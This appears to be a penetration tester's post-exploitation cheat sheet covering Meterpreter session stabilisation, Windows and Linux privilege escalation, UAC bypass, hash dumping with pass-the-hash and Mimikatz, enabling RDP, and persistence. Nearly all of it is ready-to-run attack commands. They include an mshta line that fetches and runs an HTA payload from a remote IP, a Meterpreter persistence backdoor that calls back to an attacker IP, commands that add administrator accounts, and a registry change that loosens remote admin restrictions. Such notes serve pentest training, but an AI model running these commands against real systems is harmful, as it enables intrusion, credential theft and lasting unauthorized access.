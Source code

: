 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> use incognito` - use commands from this module (e.g. `list_tokens`)
  * if `impersonate_token` doesn't work, migrate to a different process first (e.g. _w3wp_)
* `run post/multi/recon/local_exploit_suggester`
</br>__UAC__</br>
* `meterpreter> run post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* manual - https://github.com/hfiref0x/UACME

#### Tools
PowerUp - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1</br>
* `. ./PowerUp.ps1`
* `Invoke-CheckAll`
* when running functuions from PowerUp remember to check commands of exploits
  * `Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"`
  * `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`

WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS</br>

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/unquoted_service_path` - module for exploiting unquoted path vulnerable instances
* abuse services
  * _AppReadiness_
    * add users to Administrators group - `sc config AppReadiness binPath= "cmd /c net localgroup Administrators <current-user> /add`
    * get system using Microsoft HTA (with powershell and PowerUp.ps1) - `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`
 

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
* Replace executable
* crontab
* root squashing
#### Metasploit
* msf> `use exploit/linux/local/glibc_origin_expansion_priv_esc` - glibc vulnerability

# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* `migrate <PID>` - migrate to a x64 processes
* `load mimikatz`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%
* search privileges on destination folder
  * `get-acl 'c:\users\administrator\desktop\dvta\bin\release' | format-list` - check if current user has write permissions on destination folder


## Cool Resources
* https://wiki.zacheller.dev/pentest/post-exploitation/maintaining-access
* https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
* https://csbygb.gitbook.io/pentips/windows/privesc
